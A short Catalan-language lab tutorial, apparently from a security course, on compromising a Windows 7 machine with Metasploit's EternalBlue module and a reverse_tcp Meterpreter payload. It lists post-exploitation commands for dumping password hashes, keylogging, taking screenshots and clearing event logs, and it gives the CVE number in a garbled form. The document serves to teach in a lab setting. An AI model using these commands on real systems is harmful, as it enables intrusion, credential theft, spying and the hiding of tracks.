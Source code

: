 ## En aesta pràctica prepararem la màquina `Windows 7 ` per a poder realitzar algunes activitats amb Metasploit.

!!!danger "Perill!!"
    No proveu açò fora d'un entorn didáctic. Podrieu cometrer un delicte...

## Explotar vulnerabilitat `CVE-2017-010` amb Eternalblue i Doublepulsar des de Metasploit

* Simplement utilitzem el següent exploit:

`use exploit/windows/smb/ms17_010_eternalblue`...i ens torna el control mitjançant un **shell o un Meterpreter** (Metainterprete:payload que permet carregar i injectar en un programa del sistema atacat les extensions que em desenvolupat en format .dll). 

* i payload `set PAYLOAD windows/x64/meterpreter/reverse_tcp`

* i executem `exploit`

Ja estem dins...

* Comandaments que podem fer servir:
  * De sitema:
    * sysinfo
    * getuid
    * migrate `pid`
    * hashdump
    * upload/download
    * shell
    * sysinfo
  * De Espionatge
    * keyscan_start/keyscan_dump
    * screenshot/screenstreamer
  * Per a no deixar Rastre
    * clearev

Per supossat hi han prou més... convide a l'usuari a investigar-los, només heu de ficar dins de l'exploit: `help`.